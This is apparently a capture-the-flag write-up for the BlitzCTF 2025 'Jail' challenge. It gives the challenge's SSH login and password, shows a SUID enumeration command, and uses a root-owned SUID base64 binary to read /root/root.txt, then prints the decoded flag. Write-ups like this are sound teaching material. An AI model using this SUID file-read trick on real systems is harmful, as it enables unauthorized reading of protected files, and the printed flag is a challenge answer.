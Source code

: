 **Jail - BlitzCTF 2025 Writeup**

**Category**: Privilege Escalation / Jail Escape
**Points**: 460
**Author**: rahisec

---

### Challenge Description:

> I'm imprisoned. Help me to escape!!!
>
> **Usage:**
>
> ```bash
> ssh rahisec@jail.blitzhack.xyz -p 2222
> password: 1234
> ```
>
> Flag format: Blitz{Some\_text}

---

### Initial Access

We connected to the challenge server using the provided SSH credentials:

```bash
ssh rahisec@jail.blitzhack.xyz -p 2222
# password: 1234
```

After logging in, we were dropped into a restricted shell with limited binary access and most useful commands either unavailable or sandboxed.

---

### Enumeration

We ran the classic SUID check to find executables with the SUID bit set:

```bash
find / -perm -4000 -type f 2>/dev/null
```

This listed a few standard binaries like `/usr/bin/su`, `/usr/bin/passwd`, etc. However, interestingly, it also showed:

```
/usr/bin/base64
```

This was odd. `base64` is usually a harmless utility, but here it had the SUID bit **and** was owned by root. This meant **anyone running it executes with root privileges**.

---

### Exploitation

Knowing `base64` had elevated privileges, we thought of ways to leverage it to access restricted files. One obvious candidate was:

```
/root/root.txt
```

This is often the location of the flag on root-owned systems.

So we ran:

```bash
base64 /root/root.txt
```

And got:

```
QWJyYUNhRGFicmFfZ2lsaV9naWxpX3N1dXV1XzEzMzc3
```

Decoding it:

```bash
echo QWJyYUNhRGFicmFfZ2lsaV9naWxpX3N1dXV1XzEzMzc3 | base64 -d
```

Output:

```
AbraCaDabra_gili_gili_suuuu_13377
```

Following the format, the final flag was:

```
Blitz{AbraCaDabra_gili_gili_suuuu_13377}
```

---

### Conclusion

The core of this challenge was recognizing an uncommon SUID binary (`base64`) and thinking creatively about what files we could access with it. Once we realized `base64` runs as root, reading the flag was straightforward.

**Takeaway:** Always check for unusual SUID binaries. Even seemingly harmless utilities can become dangerous if given elevated permissions.

